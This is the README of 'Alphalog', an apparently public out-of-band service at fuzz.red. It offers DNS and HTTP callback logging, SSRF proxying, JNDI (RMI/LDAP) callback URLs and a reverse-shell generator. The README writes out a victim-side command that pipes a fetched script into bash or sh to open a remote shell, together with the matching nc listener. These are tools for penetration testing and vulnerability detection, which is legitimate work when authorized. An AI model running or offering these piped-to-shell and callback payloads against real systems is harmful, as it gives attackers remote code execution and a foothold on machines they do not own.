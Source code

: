 <img src="fuzz.red.jpg">

# Alphalog

Alphalog 更快、更安全。支持完全匿名 产品(fuzz.red)

```bash
  $$$$$$\  $$\           $$\                 $$\                          
 $$  __$$\ $$ |          $$ |                $$ |                         
 $$ /  $$ |$$ | $$$$$$\  $$$$$$$\   $$$$$$\  $$ |      $$$$$$\   $$$$$$\  
 $$$$$$$$ |$$ |$$  __$$\ $$  __$$\  \____$$\ $$ |     $$  __$$\ $$  __$$\ 
 $$  __$$ |$$ |$$ /  $$ |$$ |  $$ | $$$$$$$ |$$ |     $$ /  $$ |$$ /  $$ |
 $$ |  $$ |$$ |$$ |  $$ |$$ |  $$ |$$  __$$ |$$ |     $$ |  $$ |$$ |  $$ |
 $$ |  $$ |$$ |$$$$$$$  |$$ |  $$ |\$$$$$$$ |$$$$$$$$\\$$$$$$  |\$$$$$$$ |
 \__|  \__|\__|$$  ____/ \__|  \__| \_______|\________|\______/  \____$$ |
               $$ |                                             $$\   $$ |
               $$ |                 By:Alphabug                 \$$$$$$  |
               \__|                 Version:0.2022.01.16.01      \______/
```

# Welcome to Fuzz.Red #

## Usage

1. Get token(`key`) and randomly named subdomain (Expires: 1 Day)

	```bash
	$ curl fuzz.red/get
	{"key":"63d755be-9683-40a9-91fb-b85890155872","subdomain":"oz4e.fuzz.red"}
	```

2. Get logs

	```bash
	$ curl fuzz.red -X POST -d "key=63d755be-9683-40a9-91fb-b85890155872"
	{"code":200,"data":[]}
	```

### DNSLOG

```bash
ping -c 1 oz4e.fuzz.red
```

```bash
$ curl fuzz.red -X POST -d "key=63d755be-9683-40a9-91fb-b85890155872"
{"code":200,"data":["{\"ip\":\"192.168.1.1\",\"reqbody\":[\"\"],\"subdomain\":\"oz4e.fuzz.red.\",\"time\":\"2022-01-14 17:01:17 +0800 CST\",\"type\":\"dns\"}"]} 
```

### HTTPLOG

```bash
curl oz4e.fuzz.red -d "abc"
```

```bash
$ curl fuzz.red -X POST -d "key=63d755be-9683-40a9-91fb-b85890155872" | python -m json.tool
{
"code": 200,
"data": [
	{...}]
}
```

### SSRF

```bash
$ curl -L fuzz.red/ssrf/www.baidu.com/
<!DOCTYPE html>...(www.baidu.com page)...</html>
```


### 反弹shell

```bash
$ curl fuzz.red/sh4ll/ip:port
```

Victim

```bash
$ curl fuzz.red/sh4ll/1.2.3.4:1234 | bash
# or 
$ curl fuzz.red/sh4ll/1.2.3.4:1234 | sh
```

VPS

```bash
$ nc -lvvp 1234
listening on [any] 1234 ...
connect to [1.2.3.4] from fbi.gov [127.0.0.1] 46958
```

### RMI or LDAP 
PATH规则为“sub/text”,sub为子域名的主机头，text为自定义特征
例如：子域名=oz4e.fuzz.red，text=Alphabug
=> oz4e/Alphabug

```bash
rmi://jndi.fuzz.red:5/oz4e/Alphabug
# or
ldap://jndi.fuzz.red:5/oz4e/Alphabug
```
获取log
```bash
$ curl fuzz.red -X POST -d "key=63d755be-9683-40a9-91fb-b85890155872" | python -m json.tool

{
	"code": 200,
	"data": [
		{
			"ip": "1.2.3.4:41584",
			"reqbody": "Alphabug",
			"subdomain": "oz4e.fuzz.red.",
			"time": "2022-01-16 03:40:03 -0500 EST",
			"type": "ldap"
		}
	]
}
```
## 作者有话说

###  项目名称为：Alphalog，作者Alphabug。
采用Go编写开发 DNS服务、Http服务等，后续等待开源。

项目域名为匿名域名，请求接口没有做任何的记录。所有dnslog存活时间为1天，大家可以亲测。

（请勿CC/DDos，服务器特别贵，可能没办法退钱）
       
## 项目日志：
- 2021年12月14日 17:30:35 第一个版本完成
- 2021年12月14日 20:14:57 特别感谢团队成员hexman、Longlone（WaY）测试提出的各类bug。
- 2021年12月14日 20:26:33 上架公测，我是Alphabug欢迎大家提需求，目的就是让dnslog扩展性更高，如果您有建议请邮箱联系我：alphabug@redteam.site
- 2021年12月14日 21:17:15 页面不再更新，Issue 上github吧。项目地址 https://github.com/AlphabugX/Alphalog
- 2022年01月15日 17:07:41 添加httplog功能，升级数据格式。
- 2022年01月15日 17:52:03 添加SSRF辅助功能。
- 2022年01月15日 18:52:42 添加反弹shell功能,支持bash、sh、nc、python、awk、telnet弹shell方法。
- 2022年01月16日 16:45:12 添加RMI、LDAP log功能，引用https://github.com/EmYiQing/JNDIScan核心模块，实现log查询。

## curl 效果日志
![image](https://user-images.githubusercontent.com/27001865/149620709-e02d8876-8320-445c-8cf3-151f653b04b3.png)

## www.fuzz.red 效果
![www fuzz red_(iPhone X)](https://user-images.githubusercontent.com/27001865/149708515-c1dcf244-babe-4948-9418-3760c697010c.png)

![image](https://user-images.githubusercontent.com/27001865/149654871-c93be50f-5e42-4c6a-b1d2-447870285cb5.png)
